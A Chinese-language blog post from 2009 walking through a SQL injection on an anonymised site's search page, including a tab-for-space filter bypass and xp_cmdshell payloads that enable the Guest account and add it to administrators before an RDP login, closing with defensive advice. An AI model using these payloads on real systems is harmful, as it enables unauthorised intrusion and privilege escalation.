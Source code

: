 ```yaml
---
title: '典型的 SQL 注入过程'
date: '2009-11-12'
layout: post
categories:
    - 奇技淫巧

#type: draft
---
```


*此漏洞已帮其修复，并知会当事人*

 [SQL 注入](http://en.wikipedia.org/wiki/SQL_injection) 漏洞危害巨大，但 SQL 注入也经常的被发现，少不小心过滤不完全就有可能让整个应用陷入困境。

无意间发现某站点存在 SQL 注入漏洞，于是利用这个漏洞提权并获取服务器控制权。这个案例很典型，像是教科书式的典型入侵步骤，下面就以这个案例展示从 SQL 注入到获取目标服务器控制权限的全过程。


## 发现

![http://files.gracecode.com/2009_11_11/1257999312.gif](http://files.gracecode.com/2009_11_11/1257999312.gif)

访问某站点的搜索页面，发现输入单引号「'」就直接报错，这就说明这个页面存在 注入的可能。为了证实这点，首先闭合请求访问语句，然后对比返回结果的差异。

发现访问

    http://foo/rss.aspx?keyword=lucky

以及

    http://foo/rss.aspx?keyword=lucky'));--

都可以被执行，但是返回的结果不同。根据下面的错误信息，是注释掉了 ORDER BY 。


## 分析

根据上面的情况，能非常肯定的断定这个脚本存在很严重的 SQL 注入漏洞。下一步，尝试构建插入 SQL 语句

![http://files.gracecode.com/2009_11_11/1257999379.gif](http://files.gracecode.com/2009_11_11/1257999379.gif)

    http://foo/rss.aspx?keyword=lucky'));SELECT%20SERVERPROPERTY%20('edition');--

发现服务器的报错信息为 SQL 语句语法错误，SQL 构建不成功。几次尝试注入均不成功，于是休息下先把重点放到服务器本身

![http://files.gracecode.com/2009_11_11/1257999485.png](http://files.gracecode.com/2009_11_11/1257999485.png)

扫描目标主机开放的端口，发现目标主机的 3389 端口是开放的。用远程桌面访问这个端口，可以访问。万事俱备，看来思路还得回到如何利用这个 SQL 注入漏洞。

此时灵光一现，是不是服务器的脚本分割用户输入的空格（%20），然后组成 SQL 语句查询？那么将空格转换成 TAB（%09）试试看，重新发起请求

    http://foo/rss.aspx?keyword=lucky'));SELECT%09SERVERPROPERTY%09('edition');--

![http://files.gracecode.com/2009_11_11/1257999508.png](http://files.gracecode.com/2009_11_11/1257999508.png)

并没有报错，说明判断是正确的。接下来的事情就好办了，调用 SQL 外部命令将 Guest 用户解禁并加入管理组。


## 提权

解禁 Guest 用户

    http://foo/rss.aspx?keyword=lucky'));exec%09Master..xp_CMDShell%09'net%09user%09guest%09/active:yes';--

相当于服务器执行

    net user guest /active:yes

再将 Guest 加入到管理员组

    http://foo/rss.aspx?keyword=lucky'));exec%09Master.xp_CMDShell%09'net%09localgroup%09administrators%09guest%09/add';--

相当于服务器执行

    net localgroup administrators guest /add

![http://files.gracecode.com/2009_11_11/1257999460.gif](http://files.gracecode.com/2009_11_11/1257999460.gif)

上述请求顺利执行成功，然后打开目标主机的远程登录，输入用户名「guest」密码为空登录，结果顺利登录 （运气和相貌都很重要 :P）。

重新关上 Guest 帐户，并通知主机管理员，至此攻击结束。


## 后记

正如上文所描述的，SQL 漏洞危害非常的巨大，但我相信国内很多中小站点还普遍存在着这样的漏洞。这里有些个人的不完全建议

* 代码要对输入的参数做到充分的过滤，并尽可能得考虑极端情况
* 错误信息尽可能的少，否则无关的人看不懂而有心的人就会提起兴趣
* 不要以管理员的身份运行服务器进程
* 某些情况下， [net 命令](http://www.computerhope.com/nethlp.htm) 对于攻击者而言就是「微软牌」的木马
* 严格控制远程登录访问者的来源
* 如果可能的情况下，不是很推荐使用 Windows 作为服务器操作系统


`-- EOF --`
